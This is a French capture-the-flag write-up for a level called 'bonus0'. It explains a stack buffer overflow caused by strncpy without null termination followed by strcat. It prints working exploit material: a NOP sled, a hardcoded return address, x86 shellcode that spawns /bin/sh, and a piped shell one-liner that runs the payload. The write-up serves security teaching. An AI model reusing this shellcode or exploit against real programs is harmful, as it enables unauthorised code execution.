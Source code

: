 # Bonus0 - Buffer Overflow avec Concatenation

## Fonctionnement du Programme

**Fonction p()**
- Lit jusqu'à 4096 bytes dans un buffer
- Utilise strncpy pour copier 20 bytes dans le buffer destination
- Ne garantit pas de null byte à la fin de la copie

**Fonction pp()**
- Déclare deux buffers locaux : buffer1 et buffer2
- Appelle p() deux fois pour remplir ces buffers
- Concatène les buffers avec un espace entre eux

## Vulnérabilités

1. **strncpy sans null byte**
- La fonction p() copie exactement 20 bytes sans ajouter de null byte

2. **Concaténation dangereuse**
- strcat est utilisés sans vérification de taille 
- buffer2 etant la source et n'ayant pas de null-terminate byte strcat read au dela du buffer

## Processus d'Exploitation

1. **Premier Buffer**
- Rempli avec 20 NOPs
- Sans null byte terminal

2. **Second Buffer**
- 9 NOPs pour atteindre l'adresse de retour / saved eip du main
- Adresse pointant vers notre shellcode
- NOPs supplémentaires + shellcode

3. **Concaténation**
- Les deux buffers sont concaténés avec un espace
- L'overflow écrase l'adresse de retour
- Le flux d'exécution est redirigé vers notre shellcode

4. **Exécution du Shellcode**
- Les NOPs permettent une zone d'atterrissage flexible
- Le shellcode exécute /bin/sh

## Exploitation

- Trouver l'adresse du shellcode dans la stack avec la commande find de gdb
```nasm
find /b 0xbfffe590, +2000, 0x6a, 0x0b, 0x58, 0x99, 0x52, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x31, 0xc9, 0xcd, 0x80
```

**Construction du Payload**
```python
# Premier input : 20 NOPs
"\x90" * 20

# Deuxième input : NOPs + Adresse + Shellcode
"\x90" * 9 + "\xbb\xe5\xff\xbf" + "\x90" * 30 + \
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

**Exécution**
```bash
(python -c 'print "\x90"*20' ; python -c 'print "\x90"*9 + "\xbb\xe5\xff\xbf" + "\x90" * 30 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; cat) | ./bonus0
```
